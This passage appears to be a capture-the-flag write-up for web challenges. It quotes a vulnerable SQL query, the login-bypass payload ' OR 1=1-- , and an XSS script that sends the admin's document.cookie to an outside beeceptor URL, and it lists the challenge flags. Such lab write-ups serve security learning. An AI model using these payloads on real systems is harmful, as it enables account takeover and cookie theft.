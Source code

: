 #### Description

I just learned about orms today! They seem kinda difficult to implement though... Guess I'll stick to good old raw sql statements!

#### Solution

analyzing the source code of this challenge the we quickly realize that this line was vulnerable:  
`db.all("SELECT * FROM users WHERE username='" + req.body.username + "' AND password='" + req.body.password + "'"`  
once inside thanks to this payload insert into the password field (`' OR 1=1-- `) the flag was revealed  
**\*flag{sqli_overused_again_0b4f6}**

### web/pastebin-1 ![c](https://img.shields.io/badge/103_points-green)

#### Description

Ah, the classic pastebin. Can you get the admin's cookies?

#### solution

if you open the link a box for memo appear.  
![Alt text](./img/pastebin1.PNG?raw=true "Title")  
When you input something and click on "create paste" an unique url for your note is created and is shown in the url in this way: `https://pastebin-1.mc.ax/view?id=aipjdvnswtuqgxky`  
There is also another link that is an admin form for sending them a report of a problem. We can exploit the fact that the admin view the link we send and through an xss exploitation we can redirect him to our site and steal his cookies.  
This is the payload used in this challenge:

```
<script>
cookies = document.cookie;
url = "https://redsite.free.beeceptor.com/" + cookies;
window.location.href = url;
</script>
```

and into our page in https://beeceptor.com/ we find the flag  
![Alt text](./img/pastebin2.PNG?raw=true "Title")  
**\*flag{d1dn7_n33d_70_b3_1n_ru57}**

### web/secure ![c](https://img.shields.io/badge/104_points-green)
